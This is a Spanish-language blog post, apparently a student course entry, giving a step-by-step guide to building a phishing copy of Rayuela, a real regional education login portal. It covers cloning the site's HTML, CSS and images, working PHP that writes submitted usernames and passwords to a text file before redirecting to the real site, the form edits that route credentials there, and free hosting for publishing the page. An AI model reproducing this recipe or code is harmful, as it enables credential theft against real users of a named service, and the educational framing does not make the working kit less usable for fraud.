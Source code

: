 ```yaml
---
layout: post
current: post
cover: assets/images/1.jpg
navigation: True
title: Phishing Rayuela
date: 2021-01-29 10:18:00
tags: 2º evaluación
class: post-template
subclass: 'post'
author: aalmeidar
---
```


# Phishing
## Introducción
En esta entrada, elaboraremos paso a paso una aplicación web phishing. Primeramente, definamos lo que es el phishing:

El *phishing* es una técnica que consiste en el envío de un correo electrónico por parte de un ciberdelincuente a un usuario simulando ser una entidad legítima con el objetivo de robarle información privada, realizarle un cargo económico o infectar el dispositivo. Para ello, adjuntan archivos infectados o enlaces a páginas fraudulentas en el correo electrónico.

Tendremos como objetivo la pagina de Rayuela (Plataforma Integral Educativa de la Consejería de Educación de la Junta de Extremadura).
Para ello, usaremos las tecnologías frecuentes en el desarrollo web (HTML, CSS, PHP) y un hosting.

## Video

[![Watch the video](https://i.ytimg.com/vi/-Hrk3IBMZGI/maxresdefault.jpg)](https://www.youtube.com/watch?v=-Hrk3IBMZGI)

## Estudio de la web
Lo primero que debemos hacer es acceder a la web y tener un pequeño mapa mental de la estructura externa. Ademas, podemos ir echando un vistazo a las tecnologías usadas y como han sido desarrolladas (si el css esta junto a html o en una hoja de estilo, etc).


## HTML
Para comenzar, copiaremos el html de la web objetivo. HTML es un lenguaje de marcado que se utiliza para el desarrollo de páginas de Internet. Se trata de la sigla que corresponde a HyperText Markup Language, es decir, Lenguaje de Marcas de Hipertexto, que podría ser traducido como Lenguaje de Formato de Documentos para Hipertexto.
Podemos hacer esto de varias formas:
- Usar el comando ```wget``` o ```curl``` a través de la terminal para obtener el html
- Click derecho, ver código fuente, copiamos y guardamos en un archivo con extensión html.
    
Si vamos viendo nuestro progreso veremos la pagina que aun no se parece mucho a nuestro objetivo, la estética la conseguiremos con css.


## CSS
La sigla CSS corresponde a la expresión inglesa Cascading StyleSheets, que puede traducirse como “Hojas de estilo en cascada”. El concepto se utiliza en el ámbito de la informática para referirse a un lenguaje empleado en el diseño gráfico.
Si CSS esta externo al html, nos será necesario buscar la ruta de este archivo. Comunmente, entre las etiquetas head de html se coloca la ruta a este archivo. En nustro caso, se observa la ruta en una línea.

Si accedemos a la dirección, encontraremos todo el css que afecta a nuestra web. Hacemos igual que con el html, lo copiamos y guardamos en un archivo con extensión css. (Se debe de poner la misma ruta y nombre).

Ya se observa una mejora de nuestra web pero aun nos falta algo, las imágenes.



## Imágenes
Para obtener las imágenes, podemos usar [herramientas online](https://imagecyborg.com/) aunque en nuestro caso no obtendremos todas, puesto que, también hay imágenes en el css.
Por orta parte, se puede hacer manualmente, si observamos el html veremos las rutas de las imágenes al igual que en el css.
Para ir mas rápido en la búsqueda de imágenes, se puede usar filtros por .png .jpg .gif.
Una vez encontradas, las descargaremos y guardaremos con la misma ruta. Ya tenemos la web copiada.

## PHP
PHP (acrónimo recursivo de PHP: Hypertext Preprocessor) es un lenguaje de código abierto muy popular especialmente adecuado para el desarrollo web y que puede ser incrustado en HTML.
Lo usaremos para recoger la información de los inputs y guardarla en un archvio txt.

```php
<?php
file_put_contents("usernames.txt", "Account: " . $_POST['username'] . " Pass: " . $_POST['password'] . "\n", FILE_APPEND);
header('Location: https://rayuela.educarex.es');
exit();
```
La función file_put_contents escribe informacion en un fichero tiene esta sintaxis:
file_put_contents(filename, data, mode, context)
La función PHP header nos permite enviar encabezados sin formato al cliente (robot, navegador…). Es una manera de forzar dicho envío antes de que se lean los encabezados de la propia página.
Ahora deberemos ir al código HMTL y cambiar en los inputs los valores a username y password. Nos quedaría algo asi:
```html
<div class="columna">
  <label for="ussername">Usuario</label>
  <input name="username" type="text" id="username" />
</div>
<div class="columna">
  <label for="password">Clave</label>
  <input name="password" type="password" id="password " />
</div>
```
Además, debemos cambiar la redirección del action de form  a login.php:

```html
<form name="formulario" id="formulario" method="post" action="login.php">
```
## Hosting 

Después de tener todo el login perfecto para el phishing toca subirlo a la red para poder enviarlo. En este caso usaremos un [hosting gratuito](https://000webhost.com).



## Práctica

Para comprobar los conociminetos adquiridos, realiza un página phishing a esta [Web](https://aalmeidar.000webhostapp.com)




## Para ampliar

- [Ejemplo de phsishing paso a paso (BBVA)](https://www.bbva.com/es/un-ejemplo-de-phishing-paso-a-paso/)
- [Ingeniería social: Phishing y baiting](http://repository.unipiloto.edu.co/bitstream/handle/20.500.12277/6349/Ingenieria%20social%20Phishing%20y%20Baiting.pdf?sequence=1&isAllowed=y)
- [Los ataques de ingeniería social más habituales son los fraudes online](https://cuadernosdeseguridad.com/2020/07/ingenieria-social-engano-pablo-iglesias-phishing/)
- [Metodologías de Ingeniería Social ](http://openaccess.uoc.edu/webapps/o2/bitstream/10609/81255/6/jrodriguezrinTFM0618memoria.pdf)
- [Phishing: la automatización de la ingienería social](https://repository.eafit.edu.co/bitstream/handle/10784/2443/salazar_natalia_2007.pdf?sequence=1)
